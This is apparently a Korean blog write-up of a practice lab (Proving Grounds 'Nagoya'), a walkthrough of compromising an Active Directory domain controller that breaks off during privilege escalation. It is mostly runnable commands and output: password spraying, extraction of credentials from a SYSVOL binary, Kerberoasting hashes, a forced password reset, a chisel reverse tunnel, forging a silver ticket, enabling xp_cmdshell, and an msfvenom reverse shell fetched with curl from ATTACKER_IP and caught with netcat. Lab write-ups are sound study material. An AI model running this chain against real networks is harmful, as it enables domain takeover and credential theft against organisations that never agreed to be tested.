


---
layout: post
title:  "[PG][AD] nagoya"
date:   2026-11-08 12:02:00 +09:00
featured: /assets/images/oscp-pg/ad/nagoya/image.png
categories: PG AD
---## 정보 수집
포트 스캔을 수행했다
```
└─$ ports=$(nmap -p- --min-rate=1000 -T4 -Pn 192.168.122.21 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
└─$ nmap -p$ports -sC -sV -Pn 192.168.122.21 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-06 05:16 EDT
Nmap scan report for 192.168.122.21
Host is up (0.095s latency).

PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
80/tcp    open  http              Microsoft IIS httpd 10.0
|_http-title: Nagoya Industries - Nagoya
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2026-08-06 09:16:24Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: nagoya-industries.com0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: nagoya-industries.com0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
3389/tcp  open  ms-wbt-server     Microsoft Terminal Services
| ssl-cert: Subject: commonName=nagoya.nagoya-industries.com
| Not valid before: 2026-07-16T01:24:12
|_Not valid after:  2027-01-15T01:24:12
| rdp-ntlm-info: 
|   Target_Name: NAGOYA-IND
|   NetBIOS_Domain_Name: NAGOYA-IND
|   NetBIOS_Computer_Name: NAGOYA
|   DNS_Domain_Name: nagoya-industries.com
|   DNS_Computer_Name: nagoya.nagoya-industries.com
|   DNS_Tree_Name: nagoya-industries.com
|   Product_Version: 10.0.17763
|_  System_Time: 2026-08-06T09:17:14+00:00
|_ssl-date: 2026-08-06T09:17:54+00:00; +6s from scanner time.
5985/tcp  open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf            .NET Message Framing
49666/tcp open  msrpc             Microsoft Windows RPC
49667/tcp open  msrpc             Microsoft Windows RPC
49678/tcp open  msrpc             Microsoft Windows RPC
49681/tcp open  msrpc             Microsoft Windows RPC
49698/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: NAGOYA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-08-06T09:17:15
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 5s, deviation: 0s, median: 5s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.02 seconds
```

80 웹을 접속하여 Team 하단의 사용자 목록 확인.


firstname.Lastname 형식의 사용자 목록을 만든 뒤 users에 저장.
```
└─$ cat users    
matthew.Harrison
emma.Miah
rebecca.Bell
scott.Gardner
terry.Edwards
holly.Matthews
anne.Jenkins
brett.Naylor
melissa.Mitchell
craig.Carr
fiona.Clark
patrick.Martin
kate.Watson
kirsty.Norris
andrea.Hayes
abigail.Hughes
melanie.Watson
frances.Ward
sylvia.King
wayne.Hartley
iain.White
joanna.Wood
bethan.Webster
elaine.Brady
christopher.Lewis
megan.Johnson
damien.Chapman
joanne.Lewis
```

웹 하단에 2023년을 확인하였으며, 게절을 추가하여 pass파일 생성.
```
└─$ cat pass    
Spring2023
Summer2023W
Fall2023
Winter2023
```

브루트포싱을 통해 SMB 계정 확인.
```
└─$ crackmapexec smb 192.168.122.21 -u users -p pass --continue-on-success
SMB         192.168.122.21  445    NAGOYA           [*] Windows 10 / Server 2019 Build 17763 x64 (name:NAGOYA) (domain:nagoya-industries.com) (signing:True) (SMBv1:False)
SMB         192.168.122.21  445    NAGOYA           [+] nagoya-industries.com\craig.Carr:Spring2023 
SMB         192.168.122.21  445    NAGOYA           [+] nagoya-industries.com\fiona.Clark:Summer2023
```

fiona.Clark 계정으로 조회할수 있는 디렉토리 발견.
```
└─$ crackmapexec smb 192.168.122.21 --shares -u fiona.Clark -p Summer2023
SMB         192.168.122.21  445    NAGOYA           [*] Windows 10 / Server 2019 Build 17763 x64 (name:NAGOYA) (domain:nagoya-industries.com) (signing:True) (SMBv1:False)
SMB         192.168.122.21  445    NAGOYA           [+] nagoya-industries.com\fiona.Clark:Summer2023 
SMB         192.168.122.21  445    NAGOYA           [+] Enumerated shares
SMB         192.168.122.21  445    NAGOYA           Share           Permissions     Remark
SMB         192.168.122.21  445    NAGOYA           -----           -----------     ------
SMB         192.168.122.21  445    NAGOYA           ADMIN$                          Remote Admin
SMB         192.168.122.21  445    NAGOYA           C$                              Default share
SMB         192.168.122.21  445    NAGOYA           IPC$            READ            Remote IPC
SMB         192.168.122.21  445    NAGOYA           NETLOGON        READ            Logon server share 
SMB         192.168.122.21  445    NAGOYA           SYSVOL          READ            Logon server share
```

SYSVOL 디렉토리에서 ResetPassword.exe 파일을 다운로드
```
└─$ smbclient \\\\192.168.122.21\\SYSVOL -U fiona.Clark                  
Password for [WORKGROUP\fiona.Clark]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Apr 30 02:31:25 2023
  ..                                  D        0  Sun Apr 30 02:31:25 2023
  nagoya-industries.com              Dr        0  Sun Apr 30 02:31:25 2023

                10328063 blocks of size 4096. 4816555 blocks available
smb: \> cd nagoya-industries.com
smb: \nagoya-industries.com\> ls
  .                                   D        0  Sun Apr 30 02:37:44 2023
  ..                                  D        0  Sun Apr 30 02:37:44 2023
  DfsrPrivate                      DHSr        0  Sun Apr 30 02:37:44 2023
  Policies                            D        0  Sun Apr 30 02:31:32 2023
  scripts                             D        0  Sun Apr 30 04:07:13 2023

                10328063 blocks of size 4096. 4816555 blocks available
smb: \nagoya-industries.com\> cd scripts
smb: \nagoya-industries.com\scripts\> ls
  .                                   D        0  Sun Apr 30 04:07:13 2023
  ..                                  D        0  Sun Apr 30 04:07:13 2023
  ResetPassword                       D        0  Sun Apr 30 04:07:07 2023

                10328063 blocks of size 4096. 4816555 blocks available
smb: \nagoya-industries.com\scripts\> cd ResetPassword
smb: \nagoya-industries.com\scripts\ResetPassword\> ls
  .                                   D        0  Sun Apr 30 04:07:07 2023
  ..                                  D        0  Sun Apr 30 04:07:07 2023
  ResetPassword.exe                   A     5120  Sun Apr 30 13:04:02 2023
  ResetPassword.exe.config            A      189  Sun Apr 30 12:53:50 2023
  System.IO.FileSystem.AccessControl.dll      A    28552  Mon Oct 19 23:39:30 2020
  System.IO.FileSystem.AccessControl.xml      A    65116  Sat Oct 10 01:10:54 2020
  System.Security.AccessControl.dll      A    35952  Sat Oct 23 04:45:08 2021
  System.Security.AccessControl.xml      A   231631  Tue Oct 19 12:14:20 2021
  System.Security.Permissions.dll      A    30328  Tue Oct 18 21:34:02 2022
  System.Security.Permissions.xml      A     8987  Tue Oct 18 21:34:02 2022
  System.Security.Principal.Windows.dll      A    18312  Mon Oct 19 23:46:28 2020
  System.Security.Principal.Windows.xml      A    90968  Sat Oct 10 01:10:54 2020

                10328063 blocks of size 4096. 4816555 blocks available
smb: \nagoya-industries.com\scripts\ResetPassword\> get ResetPassword.exe
getting file \nagoya-industries.com\scripts\ResetPassword\ResetPassword.exe of size 5120 as ResetPassword.exe (14.5 KiloBytes/sec) (average 14.5 KiloBytes/sec)
```

ghidra를 통해 String값을 나열한 뒤 계정정보 확인.

```
svc_helpdesk
U299iYRmikYTHDbPbxPoYYfa2j4x4cdg
```

커버로스팅 공격을 통해 계정과 NTLM해시 값 추출 성공.
```
└─$ impacket-GetUserSPNs -dc-ip 192.168.122.21 nagoya-industries.com/fiona.Clark:Summer2023 -request
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName                Name          MemberOf                                          PasswordLastSet             LastLogon                   Delegation 
----------------------------------  ------------  ------------------------------------------------  --------------------------  --------------------------  ----------
http/nagoya.nagoya-industries.com   svc_helpdesk  CN=helpdesk,CN=Users,DC=nagoya-industries,DC=com  2023-04-30 03:31:06.190955  <never>                                
MSSQL/nagoya.nagoya-industries.com  svc_mssql                                                       2023-04-30 03:45:33.288595  2026-07-16 21:26:26.285573             


[-] CCache file is not found. Skipping...
$krb5tgs$23$*svc_helpdesk$NAGOYA-INDUSTRIES.COM$nagoya-industries.com/svc_helpdesk*$8d54f65ee02e351b0496f3e5a5cef79c$0179695c65e88b8284459d1b88b82af247c74223eb19b62d54672d7be4ec1a0957d443881e0243b8cfafa256864568cf3301a06bcf228467291a4134d199b0ecea9821867049f0ee0c4a8daf6dc06d3ecbf45fee608a0770098566ec831bcd56bb44b3caf821a50557977fb2c462a8d4ec2ec6763660a6cdabca64b01a4a3d14530a659ee89d0fe600e3e07f90e8a2d8e8adddf873169988ef96e2c98204cbf455be6e25483e5f5d777b8538250e9f889505d928719e749c5fe7f1842eac5b33b8c97c50d9edbb5ceb37c80565bbddf90dc8af16044ed4c4618860a3c718455e46b58afcf16e49b09aecc33fc9b096d4b972fbcd43e82ee499e8d986ecfb314bde5f4324c69f797becb0beb281c63c441dc372b514a03ace310b702c5ae3cf24bc912725abda5973b2ca96e9a64ef173d23eb3bf840b95be055312db70c09ae5596e084234aebd2289d72e4c375b7a44131c08b07adecd11aa89fe8b5a5f6f9c287fb9691e567d95e0501e134e5e68dfe0b5d993e63f5ab503da362cfae70073f1e91ff8d39f126647dfc869d385ce6bdceabecd0b9061e6dae3339800bd72325ddb4223aa99ed93c136de364e2479c92cf418416687068a28fbed3bb2321e490f45c0d3a747e72a16addd384450ed8c300da1c62af3a43868fd63e2d8de22bb0208802d302fcd3cb609ca6d345f549fa6daa7d95689a1f5e791eba3a835278045ee4a023c3b021deedd36e52c6ad1e22de34345b9d3ea7fbf79577f8869c6ef1ce1929c676fe222a2f4ed57a062cd87dee7a8219149eb1c418f0aff0a855a49112840c5298469ea1bc4a383478f2696e28a8046a2ba8ab92fd689595bea3cda849924834e0435066e03304e7097356ef877fc324101b5026b94828f093e2db7391a2564ac15697c67cc2a0774dbff270dd58af6f005da8ba153a8dafb0a37eafda0c88df37172f2d201a1da1d10c722a3d0ff4680900ad8962e0273ec1a159f1470f7dc43603634bb36df43a9a5ecdd7dbd970728e146c4acbc94b897ca3ec6e4fba812d6f6c4ab9df196ca9b7c96f79c097eae3c5c40d173bd4915196664b689be6e0dd6ccbd16c992121f9269a140ad88780cfbff8502236c571007a38b25185c8995289aab0769c2b2ec85c6e6641ef6bf86f9f9524eab9d090f93ce0220f06d942517b8ae6448e68226c097bde2fcd5f4e98b49443bda5478fa3dc6abac7ac3498155317c28a35ace910b8af21deb34fb4fc07ccc345515fabc24992098f7ff72239235c63536dfbe4e32663acb17e581b26e1795fd3ba405623f2764a4e30f687e0994261058782f0cea862ae6a004752c8461a1d78058d08c81cbd0fa098ec04c973c58532003351b7fda78f6826c262d88fe429c4d3deb025d6e81dc08e768a0b2eb0c757ce6491d57192eaba065fc866f34fff43b1bb3b5f1f5cd4d6ddce873097fac67b5c4cc5e3435318f62e7cc67c7fa41039bb32adb64b961d61d5cd4e70f038d3620488aedb98c233a533e1a2522d3ff873bf4f3b3f703104ea728c20b1903ec927b861f843b6931d0ed3edd914cb8422952bb40c1442af49c3ee6a7aae6f4c3d8cd75eb35ca52cac0ef9b0ae8c39e454215c02106d86dc671fa
$krb5tgs$23$*svc_mssql$NAGOYA-INDUSTRIES.COM$nagoya-industries.com/svc_mssql*$566289a1431914e23898dab77e1880b3$62b51d7ca86435563a89095cb9746c8ef12d237f69969cabe83aacdd9ae80bc9f7e7f77810e9d316b5fcd94d73da121fc47a208021ba2d0504014d63c713202cf401611f4e354f0d5d58acc71d8a7775549d0a5e9d53c235bf3f095d4d1de625cd745b500c6dfa0642a2747654eda49929bda1e6e40554112a109105e4dfc2a00ea917f38b8494afe092a8dbdb28588cdb6592038e7035bae96035ae67e4f164c4e31f17099ee2ba38436db8083721e27e6d1d705cb27ecc5ffb3c13db6c27f3bc36675e4c4a3f3cfb5f57aaa94c4274dd91f87f2331d53ac7595f43f79eda61dbcfea2a23ade58a786df43f2d0cbea082d6529ee8c4daa80912461f9ec000666a8b40d49919aa7be4faa294b23c341e63d5563b572235790fdacd262af6bb4879f7d9d8322bf05fde01aebebae93c1f13677f27e9bfeabb55a1c7602719d1d89f27ea733b0524d89d9c82c0ca26f25ebd1318c6f86b743f278b937ac62f0658f0bc3e4363624a1fd1910a98764dc8d8898264e6f72cefe533476c7593b8d53ff805e22ac8d38d3b56f9caadcb5ee4209362f7c45732b6be7835a19a89e653ca0e3dbc698c77c5a2d7d458959d64300c5c6cf731a800f1c8d54595bb6c6aaa4fa69c57f6b78f2d2c8209a642e8895a19791a50230a7f1f7616dac3fb2a66511eb72cef50ea405c3611699249571072f44064f84d8cb44c555e02587e31a8640c4c53538ab67008a4382141d385c6854ad76a917a800fe36ae862f45763a7ea4dc18a0a9fd9b65a975a5888908718b080839b3a2295a1c278bada7c724aa7243f7f0d2fbde494011bb14710f09c2634d931ba8748e35352e057cedbf40ead57124a2e63d9dfb54d233779e456d83453c2c72256388ae55078ac07927c6881343407ce7001dfa9d9dad7d6b30d4186dc53ae93af9f0d2b64a6a8d76e33998f50872cc1c8d06478072e7ab19b555f3d711f7a5a98ca588bd31d312a7430c51158eb0fa5e4be3eb620fd115ae9eca3afdfae3e2a4dcebbd7ffd1e7e790442d7cd9803898391b59d6aea69d9e6723b22bd5352fb11445357f339f2188b63d4e40e0a691b67af341979659365f18345a1d8db41fc04ce7c37d396f7e50f82189c26374c0aea01f868c11e25ae5dfcaa6bff57312e8beae660aded3b9ec5c6bd65949637eed8e45e76c7475ce96068b44f24881690205407838e627dea4d7ccd9b9a3ba7751eb2fd55bb6b15ef55d0cd20dab7999f3908cbd54aff7065fd7b5dcb7b6d1f4204dcc5cf6f9a256673b2ca2e05b7cfa758f8bc054404327a4dcbe91dbe5ff02a398ee260454796b42e52f0106ac98b88b65874cc5a2f08208892824d55c5c7934da19c8d76cb05b36b921af937b8c9ba3af74f794f655d0c6082beea451064471f5f3927e5f5b8467e940a172ac239ede7f2de0393e24e59d906c414aa65e3d8ffaea42df33e4f45e4c019396ac6e39837af017712f1fe843b8fac2a6ff5c698d2255d780062a79eb80bb7b918578d8e07d605bb905510fc386f1a6651ba976845f23cf82cd7be2745fa1f48e531f6d4fcb23eea19956cfa1275a448eb4ab3f54543d8361e3bbef266e8fee45330b0f4b74007b004aec4e4fd1785787b838a4
```

Hashcat 
```
└─$ hashcat hash /usr/share/wordlists/rockyou.txt
.
.
$krb5tgs$23$*svc_mssql$NAGOYA-INDUSTRIES.COM$nagoya-industries.com/svc_mssql*$566289a1<snip>785787b838a4:Service1
```

헬프데스크 계정이므로 remote user권한이 있을 것으로 추측, rpcclient으로 로그인 시도.
```
└─$ rpcclient -U nagoya-industries/svc_helpdesk 192.168.122.21
Password for [NAGOYA-INDUSTRIES\svc_helpdesk]:
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[svc_helpdesk] rid:[0x450]
user:[Matthew.Harrison] rid:[0x452]
user:[Emma.Miah] rid:[0x453]
user:[Rebecca.Bell] rid:[0x454]
user:[Scott.Gardner] rid:[0x455]
user:[Terry.Edwards] rid:[0x456]
user:[Holly.Matthews] rid:[0x457]
user:[Anne.Jenkins] rid:[0x458]
user:[Brett.Naylor] rid:[0x459]
user:[Melissa.Mitchell] rid:[0x45a]
user:[Craig.Carr] rid:[0x45b]
user:[Fiona.Clark] rid:[0x45c]
user:[Patrick.Martin] rid:[0x45d]
user:[Kate.Watson] rid:[0x45e]
user:[Kirsty.Norris] rid:[0x45f]
user:[Andrea.Hayes] rid:[0x460]
user:[Abigail.Hughes] rid:[0x461]
user:[Melanie.Watson] rid:[0x462]
user:[Frances.Ward] rid:[0x463]
user:[Sylvia.King] rid:[0x464]
user:[Wayne.Hartley] rid:[0x465]
user:[Iain.White] rid:[0x467]
user:[Joanna.Wood] rid:[0x468]
user:[Bethan.Webster] rid:[0x469]
user:[Elaine.Brady] rid:[0x46b]
user:[Christopher.Lewis] rid:[0x46c]
user:[Megan.Johnson] rid:[0x46d]
user:[Damien.Chapman] rid:[0x46e]
user:[Joanne.Lewis] rid:[0x46f]
user:[svc_mssql] rid:[0x470]
user:[svc_tpl] rid:[0x471]
user:[svc_web] rid:[0x472]
```

계정 확인하여 Christopher.Lewis계정만 3개의 그룹이 있는것을 확인 developers 그룹도 확인됨.
```
rpcclient $> queryuser Christopher.Lewis
        User Name   :   Christopher.Lewis
        Full Name   :   Christopher Lewis
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Wed, 31 Dec 1969 19:00:00 EST
        Logoff Time              :      Wed, 31 Dec 1969 19:00:00 EST
        Kickoff Time             :      Wed, 13 Sep 30828 22:48:05 EDT
        Password last set Time   :      Sun, 30 Apr 2023 03:36:45 EDT
        Password can change Time :      Mon, 01 May 2023 03:36:45 EDT
        Password must change Time:      Wed, 13 Sep 30828 22:48:05 EDT
        unknown_2[0..31]...
        user_rid :      0x46c
        group_rid:      0x201
        acb_info :      0x00000214
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000000
        padding1[0..7]...
        logon_hrs[0..21]...
rpcclient $> queryusergroups 0x46c
        group rid:[0x201] attr:[0x7]
        group rid:[0x46a] attr:[0x7]
        group rid:[0x451] attr:[0x7]
```

헬프데스크 권한을 사용하여 Christopher.Lewis의 비밀번호를 변경.
```
rpcclient $> setuserinfo christopher.lewis 23 'Password123'
```

WinRM에 로그인할 수 있는지 확인.
```
└─$ crackmapexec winrm 192.168.122.21 -u christopher.Lewis -p Password123
SMB         192.168.122.21  5985   NAGOYA           [*] Windows 10 / Server 2019 Build 17763 (name:NAGOYA) (domain:nagoya-industries.com)
HTTP        192.168.122.21  5985   NAGOYA           [*] http://192.168.122.21:5985/wsman
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       192.168.122.21  5985   NAGOYA           [+] nagoya-industries.com\christopher.Lewis:Password123 (Pwn3d!)
```


## 초기 침투

WinRM으로 로그인 한 뒤 C:\local.txt 경로에서 local.txt 파일 조회.
```
─$ evil-winrm -i 192.168.122.21 -u christopher.Lewis -p Password123                   
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Christopher.Lewis\Documents> cd C:\
*Evil-WinRM* PS C:\> ls


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        4/30/2023   2:07 AM                inetpub
d-----        4/29/2023   5:38 AM                PerfLogs
d-r---        4/30/2023   1:39 AM                Program Files
d-----        4/30/2023   1:39 AM                Program Files (x86)
d-----        4/29/2023  11:41 PM                SQL2022
d-----        4/30/2023  12:37 AM                Temp
d-r---         8/6/2026   3:07 AM                Users
d-----        4/30/2023  12:36 AM                Windows
-a----         8/6/2026   2:12 AM             34 local.txt
-a----         8/6/2026   2:12 AM            866 output.txt


*Evil-WinRM* PS C:\> cat local.txt
a3cff0a73680315957b41c2f110f13f8
```

계정은 Administrator와 svc_mssql 사용자만 있으며, MSSQL이 실행 중인 것을 확인.
```
*Evil-WinRM* PS C:\Users\Christopher.Lewis\Documents> netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:88             0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       880
  TCP    0.0.0.0:389            0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:464            0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:593            0.0.0.0:0              LISTENING       880
  TCP    0.0.0.0:636            0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:1433           0.0.0.0:0              LISTENING       2144
<snip>
```

1433을 포르를 외부헤서 사용하기 위해 chisel을 사용하여 포트 포워딩.
```
*Evil-WinRM* PS C:\Users\Christopher.Lewis\Documents> ./chisel.exe client ATTACKER_IP:9999 R:1433:127.0.0.1:1433

└─$ ./chisel_1.12.0-rc3_linux_arm64 server -p 9999 --reverse
```

Chisel 서버로 콜백을 수신하여 포트 포워딩이 성공했음을 확인.
```
└─$ ss -tulnp | grep 1433
tcp   LISTEN 0      4096               *:1433             *:*    users:(("chisel_1.12.0-r",pid=40169,fd=8))
```

 Impacket을 사용하여 MSSQL 서버에 연결 했지만, xp_cmdshell가 차단되어있었음.
```
└─$ impacket-mssqlclient svc_mssql:Service1@127.0.0.1 -windows-auth
```

PowerShell 명령어를 사용하여 대상 서비스 계정의 SPN을 획득
```
*Evil-WinRM* PS C:\Users\Christopher.Lewis\Documents> Get-ADUser -Filter {SamAccountName -eq "svc_mssql"} -Properties ServicePrincipalNames


DistinguishedName     : CN=svc_mssql,CN=Users,DC=nagoya-industries,DC=com
Enabled               : True
GivenName             : svc_mssql
Name                  : svc_mssql
ObjectClass           : user
ObjectGUID            : df7dda21-173f-4a4a-88ed-70d69481b46e
SamAccountName        : svc_mssql
ServicePrincipalNames : {MSSQL/nagoya.nagoya-industries.com}
SID                   : S-1-5-21-1969309164-1513403977-1686805993-1136
Surname               :
UserPrincipalName     : svc_mssql@nagoya-industries.com
```

Impacket의 ticketer 모듈을 사용하여 관리자 사용자를 대상으로 실버 티켓 공격을 위한 티켓 생성.
```
└─$ impacket-ticketer -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -spn MSSQL/nagoya.nagoya-industries.com -user-id 500 Administrator
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for nagoya-industries.com/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in Administrator.ccache
```

티켓을 환경 변수로 저장.
```
└─$ export KRB5CCNAME= $PWD /Administrator.ccache
```

티켓을 사용하여 MSSQL 서버에 인증하기 위해 대상 도메인을 가리키도록 /etc/krb5.conf 파일(리눅스의 Kerberos 구성 파일)을 편집.
```
[libdefaults] 
  default_realm = NAGOYA-INDUSTRIES.COM 
  kdc_timesync = 1 
  ccache_type = 4 
  forwardable = true 
  proxiable = true 
rdns = false 
dns_canonicalize_hostname = false 
  fcc-mit-ticketflags = true 
 
[realms] 
  NAGOYA-INDUSTRIES.COM = { 
    kdc = nagoya.nagoya-industries.com 
  } 
 
[domain_realm] 
.nagoya-industries.com = NAGOYA-INDUSTRIES.COM
```

포트 포워딩을 설정했으므로 AD 도메인을 루프백 주소에 매핑하는 항목을 /etc/hosts 파일에 추가.
```
└─$ cat /etc/hosts       
172.31.141.155 blogger.thm
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

127.0.0.1  nagoya.nagoya-industries.com
```

Kerberos 인증을 통해 MSSQL 서버에 인증한 뒤, xp_cmdshell을 활성화.
```
└─$ impacket-mssqlclient nagoya.nagoya-industries.com -k
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(nagoya\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(nagoya\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (NAGOYA-IND\Administrator  dbo@master)> enable_xp_cmdshell;
INFO(nagoya\SQLEXPRESS): Line 196: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
INFO(nagoya\SQLEXPRESS): Line 196: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (NAGOYA-IND\Administrator  dbo@master)> RECONFIGURE;
SQL (NAGOYA-IND\Administrator  dbo@master)> xp_cmdshell whoami
output                 
--------------------   
nagoya-ind\svc_mssql   

NULL
```

msfvenom을 이용해 리버스쉘 제작.
```
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=445 -f exe -o rev.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: rev.exe
```

xp_cmdshell OS명령어를 통해 리버스쉘을 다운로드 후, 실행.
```
SQL (NAGOYA-IND\Administrator  dbo@master)> xp_cmdshell "curl http://ATTACKER_IP/rev.exe -o C:\temp\rev.exe"
output                                                                             
--------------------------------------------------------------------------------   
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current    

                                 Dload  Upload   Total   Spent    Left  Speed      

100  7168  100  7168    0     0  27313      0 --:--:-- --:--:-- --:--:-- 27358   

NULL

SQL (NAGOYA-IND\Administrator  dbo@master)> xp_cmdshell "C:\temp\rev.exe"
```

설정해둔 netcat 리스너에 쉘이 연결되는 것을 확인함.
```
└─$ sudo rlwrap -cAr nc -lvnp 445
listening on [any] 445 ...
connect to [ATTACKER_IP] from (UNKNOWN) [192.168.169.21] 49983
Microsoft Windows [Version 10.0.17763.4252]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

## 권한 상승

계정 권한에 SeImpersonate가 활성화되어 있어 PrintSpoofer를 사용하여 관리자 권한으로 상승
```
C:\Windows\system32>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
